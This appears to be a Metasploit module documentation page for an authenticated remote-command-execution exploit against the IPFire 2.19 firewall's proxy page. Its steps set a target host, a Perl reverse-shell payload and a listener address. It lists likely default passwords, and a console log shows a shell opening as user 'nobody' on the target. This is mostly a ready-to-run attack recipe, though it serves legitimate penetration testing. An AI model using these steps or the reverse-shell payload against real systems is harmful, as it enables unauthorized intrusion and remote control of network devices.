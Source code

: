## Vulnerable Application

  Official Source: [ipfire](http://downloads.ipfire.org/releases/ipfire-2.x/2.19-core100/ipfire-2.19.x86_64-full-core100.iso)
  Archived Copy: [github](https://github.com/h00die/MSF-Testing-Scripts)

## Verification Steps

  1. Install the firewall
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/ipfire_proxy_exec```
  4. Do: ```set password admin`` or whatever it was set to at install
  5. Do: ```set rhost 10.10.10.10```
  6. Do: ```set payload cmd/unix/reverse_perl```
  7. Do: ```set lhost 192.168.2.229```
  8. Do: ```exploit```
  9. You should get a shell.

## Options

  **PASSWORD**

  Password is set at install.  May be blank, 'admin', or 'ipfire'.

## Scenarios

  ```
    msf > use exploit/linux/http/ipfire_proxy_exec
    msf exploit(ipfire_proxy_rce) > set password admin
    password => admin
    msf exploit(ipfire_proxy_rce) > set rhost 192.168.2.201
    rhost => 192.168.2.201
    msf exploit(ipfire_proxy_rce) > set payload cmd/unix/reverse_perl
    payload => cmd/unix/reverse_perl
    msf exploit(ipfire_proxy_rce) > set verbose true
    verbose => true
    msf exploit(ipfire_proxy_rce) > set lhost 192.168.2.229
    lhost => 192.168.2.229
    msf exploit(ipfire_proxy_rce) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.229:4444 
    [*] Command shell session 1 opened (192.168.2.229:4444 -> 192.168.2.201:49997) at 2016-05-30 10:09:39 -0400

    id
    uid=99(nobody) gid=99(nobody) groups=99(nobody),16(dialout),23(squid)
    whoami
    nobody
  ```